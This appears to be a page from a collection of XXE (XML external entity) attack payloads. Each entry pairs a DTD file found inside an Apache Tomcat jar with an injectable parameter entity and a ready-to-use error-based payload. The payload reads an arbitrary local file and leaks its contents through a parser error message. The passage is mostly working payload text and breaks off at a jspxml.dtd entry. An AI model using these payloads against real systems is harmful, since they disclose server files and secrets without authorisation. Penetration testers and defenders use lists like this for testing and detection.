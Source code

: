 **Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/coyote/6.0.29/coyote-6.0.29.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-core/7.0.47/tomcat-embed-core-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-core/7.0.47/tomcat-embed-core-7.0.47.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tomcat/embed/tomcat-embed-jasper/7.0.65/tomcat-embed-jasper-7.0.65.jar!/javax/servlet/jsp/resources/jspxml.dtd`

**Injectable entity:** `%URI`

